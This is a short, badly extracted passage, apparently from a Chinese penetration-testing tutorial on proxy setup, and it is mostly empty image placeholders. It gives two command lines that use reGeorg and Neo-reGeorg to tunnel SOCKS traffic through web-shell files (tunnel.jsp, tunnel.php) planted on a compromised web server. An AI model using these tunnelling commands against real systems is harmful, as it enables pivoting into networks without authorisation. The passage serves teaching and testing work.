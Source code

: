   
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnhWxXouRERibEhicQibSErZysXcOsiaGlB9U9ssPicvsraCC3khFABEqcMT3ibR4RDjYrSPhYBXa41H5rA/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
  
## 四、代理搭建  
  
### （一）工具代理  
  
  
1. 使用ython   
reGeorgSocksProxy.py  
 -p 8080 -u   
http://upload.sensepost.net:8080/tunnel/tunnel.jsp  
  
1. 使用python   
neoreg.py  
 -u   
http://192.168.163.138/www.yxcms6.com/protected/apps/default/view/default/tunnel.php  
 --proxy socks5://  
10.1.1.1:8888  
1.   
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnhWxXouRERibEhicQibSErZys67FSoW3RsCmEcl4uj5s0pJd7s4wcanAyOLZOiaicYnK7dIessBibsppqQ/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
